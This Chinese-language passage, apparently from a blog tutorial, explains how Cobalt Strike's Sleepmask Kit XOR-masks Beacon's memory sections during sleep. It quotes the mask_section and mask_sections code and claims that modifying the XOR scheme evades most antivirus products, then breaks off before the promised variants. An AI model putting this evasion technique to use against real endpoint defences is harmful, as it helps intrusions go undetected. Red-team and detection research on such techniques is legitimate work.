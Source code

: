 

## 修改sleepmask_kit

Sleepmask机制通过CobaltStrike的Sleepmask Kit实现，该Kit提供了一套源代码，使用户能够自定义遮掩过程。在默认配置下，Sleepmask Kit提供了基本的异或遮掩，但用户可以根据需要修改这些源代码，以实现更复杂或不同的遮掩算法

作者强调了哪些代码不能被修改，比如不允许修改MASK_SIZE值，因为这是用于指定mask大小的参数，更改可能会导致Beacon无法正常运行

在sleepmask.c有一个sleep_mask函数，该函数通过调用`mask_sections`和`mask_heap`函数来加密Beacon的内存区段和堆内存，而两个函数在common_mask.c中实现

![image-20231018111636772](浅谈CS的sleepmask_kit/image-20231018111636772.png)



mask_sections函数通过遍历`SLEEPMASKP`结构中的区段数组, 对每个区段调用`mask_section`函数来实现加密或解密操作

mask_section函数用于xor加密或解密一个特定的内存区段，它接受三个参数：一个`SLEEPMASKP`指针和两个指定内存区段起始和结束位置的值

```cpp
/* Mask a beacon section
 *   First call will mask
 *   Second call will unmask
 */
void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
   while (a < b) {
      *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
      a++;
   }

    
/* Mask the beacons sections
 *   First call will mask
 *   Second call will unmask
 */
void mask_sections(SLEEPMASKP * parms) {
   DWORD * index;
   DWORD a, b;

   /* walk our sections and mask them */
   index = parms->sections;
   while (TRUE) {
      a = *index; b = *(index + 1);
      index += 2;
      if (a == 0 && b == 0)
         break;

      mask_section(parms, a, b);
   }
}
```



通过修改mask_section函数的异或加密形式，一般可以绕过绝大多数杀软的检测，前提是mask_section函数可以同时用于加密和解密，下面我介绍三种异或加密的变体形式：

